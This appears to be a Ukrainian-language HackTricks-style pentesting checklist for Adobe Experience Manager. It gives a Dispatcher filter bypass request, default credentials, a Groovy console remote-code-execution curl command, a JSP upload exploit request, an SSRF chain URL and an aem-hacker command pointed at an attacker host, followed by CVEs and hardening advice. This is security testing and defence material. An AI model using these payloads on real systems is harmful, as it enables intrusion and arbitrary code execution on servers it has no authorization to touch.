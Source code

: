 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, частина Adobe Experience Cloud) є корпоративною CMS, яка працює на базі Apache Sling/Felix (OSGi) та Java Content Repository (JCR).
> З точки зору атакуючого, екземпляри AEM дуже часто відкривають небезпечні кінцеві точки розробки, слабкі правила Dispatcher, стандартні облікові дані та довгий список CVE, які виправляються щоквартально.

Список перевірки нижче зосереджується на **зовнішньо доступній (без аутентифікації) атакуючій поверхні**, яка постійно з'являється в реальних випадках (2022-2025).

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
Інші швидкі індикатори:
* `/etc.clientlibs/` статичний шлях присутній (повертає JS/CSS).
* `/libs/granite/core/content/login.html` сторінка входу з банером “Adobe Experience Manager”.
* `</script><!--/* CQ */-->` коментар внизу HTML.

---

## 2. Високоякісні неавтентифіковані кінцеві точки

Шлях | Що ви отримуєте | Примітки
---- | ------------- | -----
`/.json`, `/.1.json` | JCR вузли через **DefaultGetServlet** | Часто заблоковано, але *Dispatcher bypass* (див. нижче) працює.
`/bin/querybuilder.json?path=/` | QueryBuilder API | Витік дерева сторінок, внутрішні шляхи, імена користувачів.
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix консоль | 403 за замовчуванням; якщо відкрито та знайдено облікові дані ⇒ завантаження пакета RCE.
`/crx/packmgr/index.jsp` | Менеджер пакетів | Дозволяє автентифіковані пакети контенту → завантаження JSP корисного навантаження.
`/etc/groovyconsole/**` | AEM Groovy Console | Якщо відкрито → довільне виконання Groovy / Java.
`/libs/cq/AuditlogSearchServlet.json` | Журнали аудиту | Розкриття інформації.
`/libs/cq/ui/content/dumplibs.html` | Вивантаження ClientLibs | Вектор XSS.

### Трюк обходу Dispatcher
Більшість виробничих сайтів знаходяться за *Dispatcher* (реверс-проксі). Його правила фільтрації можна обійти, додавши дозволене статичне розширення **після крапки з комою або закодованого нового рядка**:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
Один запит, як зазначено вище, часто розкриває вузли профілю користувача з адресами електронної пошти. P-T Partners опублікували хороші рекомендації щодо цієї вразливості. 【】

---

## 3. Загальні неправильні налаштування (все ще актуальні у 2025 році)

1. **Анонімний POST сервлет** – `POST /.json` з `:operation=import` дозволяє вам створювати нові вузли JCR. Блокування `*.json` POST у Dispatcher вирішує цю проблему. 【】
2. **Профілі користувачів, доступні для всіх** – за замовчуванням ACL надає `jcr:read` на `/home/users/**/profile/*` всім.
3. **Стандартні облікові дані** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** увімкнено ⇒ відображений XSS через `?debug=layout` (CVE-2016-7882, все ще виявляється на застарілих установках 6.4).
5. **Відкритий Groovy Console** – віддалене виконання коду шляхом надсилання Groovy скрипту:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. Останні вразливості (каденція сервіс-паків)

Квартал | CVE | Підлягає | Вплив
------- | --- | -------- | ------
Грудень 2024 | **CVE-2024-43711** | 6.5.21 та раніше | Неправильна валідація введення → **Випадкове виконання коду** (вимагає авторизації з низькими привілеями). 【】
Грудень 2024 | CVE-2024-43724/26 | 6.5.21 та раніше | DOM / Збережений XSS у Move Page Wizard. 【】
Грудень 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | XSS на основі DOM через спеціально підготовлене URL. 【】
Грудень 2022 | CVE-2022-30683 | ≤ 6.5.13 | Дизайнерська помилка криптографії → розшифрування секрету (потребує облікових даних з низькими привілеями). 【】

Завжди перевіряйте бюлетень *APSB*, що відповідає сервіс-паку клієнта, і запитуйте останній **6.5.22** або *Cloud Service 2024.11*.

---

## 5. Фрагменти експлуатації

### 5.1 RCE через обхід диспетчера + завантаження JSP
Якщо анонімний запис можливий:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Тепер запитайте `/content/evil.jsp` – JSP виконується з користувачем процесу AEM.

### 5.2 SSRF до RCE (історичний < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py` з **aem-hacker** автоматизує весь ланцюг. 【】

---

## 6. Інструменти

* **aem-hacker** – скрипт для енумерації, підтримує обхід диспетчера, виявлення SSRF, перевірки стандартних облікових записів та інше.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Content Brute-force** – рекурсивно запитувати `/_jcr_content.(json|html)`, щоб виявити приховані компоненти.
* **osgi-infect** – завантажити шкідливий OSGi пакет через `/system/console/bundles`, якщо доступні облікові дані.

---

## 7. Контрольний список посилення безпеки (для рекомендацій у вашому звіті)

1. Тримайте інстанцію на **останній кумулятивній службі** (на липень 2025: 6.5.22).
2. Видаліть/змініть стандартні облікові записи; впровадьте SSO/SAML.
3. Посиліть **фільтри диспетчера** – забороніть `;`, закодовані нові рядки та `*.json` або `*.querybuilder.json` для анонімних користувачів.
4. Вимкніть або захистіть консолі (`/system/console`, `/crx/*`, `/etc/groovyconsole`) за допомогою списків дозволених IP.
5. Застосуйте пакет *Anonymous Permission Hardening*, надісланий Adobe.

## Посилання

* Adobe Security Bulletin APSB24-69 – “Оновлення безпеки для Adobe Experience Manager (грудень 2024)”.
* 0ang3el – інструмент aem-hacker (GitHub).
{{#include ../../banners/hacktricks-training.md}}
